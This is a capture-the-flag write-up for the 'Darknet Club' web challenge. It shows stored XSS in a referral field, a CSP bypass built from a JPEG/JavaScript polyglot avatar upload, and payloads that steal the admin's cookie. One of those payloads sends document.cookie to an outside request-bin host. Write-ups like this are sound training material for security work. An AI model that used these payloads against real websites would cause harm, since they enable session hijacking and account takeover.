

# Darknet Club
* Category: Web
* 200 Points
* Solved by the JCTF Team

## Description

> There is a new invite system for the most exclusive darknet websites.
> 
> Can you help me get an in?

## Solution

We enter the attached website and are presented with a register/login page:


We need to enter our username, email, referral and password. After registering, we arrive to the following screen:


On the right side, we can see a "request invitation" button which triggers the following code:

```javascript
async function report() {

	$("#submit-btn").prop("disabled", true); // disable multiple submission

	// prepare alert
	let card = $("#resp-report");
	card.text("Your submission is awaiting approval by Admin!");
	card.attr("class", "alert alert-info");
	card.show();

	let data = {};

	await fetch('/api/report', {
			method: 'POST',
			headers: {
				'Content-Type': 'application/json',
			},
			body: JSON.stringify(data),
		});

	$("#submit-btn").prop("disabled", false);
}
```

This gives us the ability to have the admin visit some page, which usually means that we need to inject some Javascript to the page they're visiting and have them unknowingly execute some malicious code.

Using the "edit" button, we can edit the different fields and look for XSS:


Therefore, we can insert `<script>console.log('XSS')</script>` into each of the fields and see if anything gets logged to the console. When inserting the snippet to the `referral` field, we get a log in the console, but not the one we were hoping for:

```
Refused to execute inline script because it violates the following Content Security Policy directive: "default-src 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-GENXFgllQ+w2L5qjIm/unWJsx1gGFLQVAhqyNNs8gL4='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
```

It turns out that the site has a CSP which prevents executing inline Javascript code:

```
content-security-policy: default-src 'self'; object-src 'none'; style-src 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com;
```

In order to execute Javascript, we'll need to include a script from the same origin as the site. Luckily, we have an upload API:

```javascript
async function upload() {

	$("#upload-btn").prop("disabled", true); // disable multiple submission

	// prepare alert
	let card = $("#resp-msg");
	card.text('Please wait...');

	// validate
	if ($('input[type=file]')[0].files.length == 0) {
		card.text('Please select a file to upload!');
		$("#upload-btn").prop("disabled", false);
		return;
	}

	let avatarFile = $('input[type=file]')[0].files[0];
	let formData = new FormData();
	formData.append('avatarFile', avatarFile);

	await fetch('/api/upload', {
		method: 'POST',
		credentials: 'include',
		body: formData,
	})
		.then((response) => response.json()
			.then((resp) => {
				if (response.status == 200) {
					avatarFile.value = []; // reset file input
					$('#file-label').text("Select profile avatar..."); // update label
					card.text(resp.message);
					console.log(resp.message) // set response message
					document.location.reload(); //refresh
				}
				if (response.status == 500){
					card.text("This file could not be uploaded, only JPEG files are allowed! ");
				}
			}))
		.catch((error) => {
			card.text("This file could not be uploaded, only JPEG files are allowed! ");
		});

	$("#upload-btn").prop("disabled", false);
}
```

The only problem is that the server rejects any file that isn't a JPEG file. Sometimes the check is based only on the file extension, but in this case there seems to be some kind of content-based check. We need a file that will pass as a JPEG file but also one where we can embed some Javascript code, or in other words, a [polyglot file](https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a):

> Polyglots, in a security context, are files that are a valid form of multiple different file types. 

You can find an example for a JPEG-Javascript polyglot [here](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs), but we found that the challenge uses a much simpler check for JPEG files: It just checks that the first four bytes are `FF D8 FF E0`. So, in order to create a valid polyglot for the sake of the challenge, we could just use it as a variable name:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Darknet_Club]
└─$ hexdump -C poly1.jpg
00000000  ff d8 ff e0 20 3d 20 31  3b 0a 0a 63 6f 6e 73 6f  |.... = 1;..conso|
00000010  6c 65 2e 6c 6f 67 28 22  78 73 73 22 29 3b        |le.log("xss");|
0000001e
```

Now, let's try to upload it and include it as a script via the vulnerable "referral" field:

```html
<script src="https://darknet-club.chal.intentsummit.org/api/avatar/user1"></script>
```



When we refresh the page, we get another unexpected error in the console:

```
Uncaught SyntaxError: Invalid or unexpected token
```

Luckily, the PortSwigger article above explains that this is related to default charset interpretation, and in order to work around the default UTF-8 interpretation we can specify the following charset:

```html
<script charset="ISO-8859-1" src="https://darknet-club.chal.intentsummit.org/api/avatar/user1"></script>
```

Once we enter this as the referrer, we can finally see "xss" getting printed to the console! This means that we have some form of XSS, and now we need to proceed to the next phase of leaking the admin's info.

We might want to leak the cookie using a RequestBin request, such as:

```javascript
fetch("https://enhqnnej2mgj5.x.pipedream.net?" + btoa(document.cookie));
```

However, that's blocked by the CSP as well:

```
Refused to connect to 'https://enhqnnej2mgj5.x.pipedream.net/' because it violates the following Content Security Policy directive: "default-src 'self'". Note that 'connect-src' was not explicitly set, so 'default-src' is used as a fallback.
```

So, in order to leak the admin's cookie, we'll utilize a different capability that doesn't violate the CSP: We'll cause the admin to register a new user with a known username and password, and leak the cookie via the referral field:

```javascript
״א = 1;

if (window.navigator.userAgent.search("HeadlessChrome") != -1)
{
   const headers = new Headers()
   headers.append("Content-Type", "application/json")

   body = {username: "leak", password: "cookie", email: "leak@mail.com", referral: btoa(document.cookie)}


   const options = {
       method: "POST",
       headers,
       mode: "cors",
       body: JSON.stringify(body),
   }

   fetch("https://darknet-club.chal.intentsummit.org/api/register", options)
}
```

Notice how we restrict the script to the remote browser so that it doesn't run first locally and register the user with our cookie. In this example we chose to restrict the script to a headless browser but there are many other options.

After reporting the account, we can finally login as our new user and get the flag:


```console
┌──(user@kali)-[/media/sf_CTFs/intent/Darknet_Club]
└─$ echo ZmxhZz1JTlRFTlR7YV9qcDM2XzFzX3cwcjdoX2FfN2gwdTU0bmRfdzByZDV9 | base64 -d
flag=INTENT{a_jp36_1s_w0r7h_a_7h0u54nd_w0rd5}
```